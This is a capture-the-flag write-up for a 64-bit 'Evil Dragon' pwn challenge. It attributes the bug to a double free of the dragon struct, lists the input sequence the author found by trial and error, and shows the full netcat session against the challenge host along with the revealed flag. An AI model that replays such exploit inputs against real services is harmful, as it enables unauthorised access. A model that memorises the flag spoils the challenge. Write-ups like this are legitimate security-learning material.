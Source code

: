 # Pwn 301 - Evil Dragon

```nc 40.76.33.15 1792``` and a 64 bit binary. I won't include the pseudocode because the code is kinda long-ish.

Anyways, the bug is when you lose, and the dragon struct is freed twice. This is a double free. The condition for getting the flag is you killing the dragon while still having >= 0 health.

I was too lazy to figure exactly how this screwy double free stuff would work, so I just played around with the program and I eventually got the flag. This was because the player struct ended up being the same as the dragon struct.

Here is the input that ended up working:
```
49
10
y
y
y
y
y
y
y
99
99
49
10
y
y
y
y
n
y
y
y
y
y
```

```
alex@WINDOWS-0A3VRFK:/mnt/c/Users/alex/Desktop/CTF$ python -c "print '49\n10\ny\ny\ny\ny\ny\ny\ny\n99\n99\n49\n10\ny\ny\ny\ny\nn\ny\ny\ny\ny\ny\n'" | nc 40.76.33.15 1792
Welcome to the evil dragon fight! It's evil because I say so. He's never died before. Now kill it!

Create a player:
How much hp should your player have? 
How much damage should your player do? 

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 39
dragon hp: 40

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 29
dragon hp: 30

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 19
dragon hp: 20

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 9
dragon hp: 10

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: -1
dragon hp: 0
You lose.
Would you like to try again? (y/n) 
Would you like to create a new player? (y/n) 
Create a player:
How much hp should your player have? 
How much damage should your player do? 
Cheater.

Create a player:
How much hp should your player have? 
How much damage should your player do? 

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 29
dragon hp: 29

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 9
dragon hp: 9

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: -11
dragon hp: -11
You lose.
Would you like to try again? (y/n) 
Would you like to create a new player? (y/n) 

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 40
dragon hp: 40

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 30
dragon hp: 30

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 20
dragon hp: 20

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 10
dragon hp: 10

Begin Round!

Would you like to attack? (y/n)
The dragon attacks!

your hp: 0
dragon hp: 0
That's impossible! Noooooooooooooooooooo!
b0ctf{double_free_the_evildragon_1z_d34d}
```

## Flag
### b0ctf{double_free_the_evildragon_1z_d34d}
